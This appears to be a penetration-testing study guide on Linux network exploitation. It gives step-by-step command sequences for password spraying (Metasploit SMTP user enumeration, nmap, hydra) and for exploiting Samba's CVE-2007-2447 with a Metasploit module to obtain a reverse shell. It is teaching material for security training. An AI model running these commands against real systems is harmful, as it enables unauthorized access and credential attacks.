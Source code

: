 # Linux Exploitation

## Exploitation over the Network

### Password Spray Attack - Study Guide

(02/31) *Password spray* (or *reverse brute-force*) attack: the idea is to introduce a list of as many users as possible, while trying just a single or just two (commonly-used) password attempts.

In environments where password complexity is not enabled (e.g. in Linux-based networks), users will take advantage of using easy-to-remember passwords that they'll modify by simply changing a value or other characteristic over time. So, we can create the `<PasswordsList>` taking one or two very common passwords.

We can also use tools like *The Harvester* to get an idea on the naming conventions an organization is using for their users.

`head -n 50 /root/Desktop/john.txt >> /root/Desktop/users.txt`: where `john.txt` is taken from the *Statistically Likely Usernames* list.
`msfosconole -q`, `search smtp enum`, `use auxiliary/scanner/smtp/smtp_enum`, `show options`, `set RHOSTS <TargetIP>`, `set USER_FILE /root/Desktop/users.txt`, `run`: to enumerate SMTP users. From the results we can create the `<ValidUsernamesList>`.
`nmap -sT <TargetIP> --open`: to find open ports (listening services).
`hydra -L <ValidUsernamesList> -P <PasswordsList> <TargetIP> <ListeningService>`: to perform the password spray attack.

Note that multiple attempts within a certain time range may result in detection and/or lockouts.

Also, keep in mind that the password re-use is another frequent issue, and passwords may be re-used across services and systems within an environment.
`hydra -l <ValidUser> -p <ValidPassword> -M <TargetIPsList> <ListeningService>`: to exploit the password re-use.

### Exploiting Samba - Study Guide

The *Samba* protocol is an open-source protocol that enables file and printer sharing between Windows operating systems and Unix-like systems such as Linux. It allows Windows computers to access and utilize shared resources on Linux servers, facilitating communication and file exchange across different platforms within a local network. Samba implements the SMB (Server Message Block) protocol and provides functionalities for file and printer sharing, user authentication, remote file access, and more. It is widely used in mixed Windows-Linux environments to enable resource sharing and collaboration between different operating systems.

`nmap --script smb-os-discovery <TargetIP> -p445`: to know the specific version of the running Samba protocol and check if it is vulnerable.

*Searchsploit* is a tool to search for known vulnerability, it provides a local database that can also be found at www.exploit-db.com: `searchsploit samba <SambaVersion>`.

Samba versions up to 4.6.4 contain vulnerabilities that allow an attacker to take control of an affected server completely. It is seen as `CVE-2017-7494` referred to as "SambaCry".

Another known Samba vulnerability is "Username Map Script", referred as `CVE-2007-2447`, that affects Samba versions 3.0.0 through 3.0.25rc3, can result in RCE.
`msfconsole -q`, `search samba usermap`, `use exploit/multi/samba/usermap_script`, `show options`, `set RHOST <TargetIP>`, `exploit`: to run an attack against the `Username Map Script` vulnerability and obtain a reverse shell session.
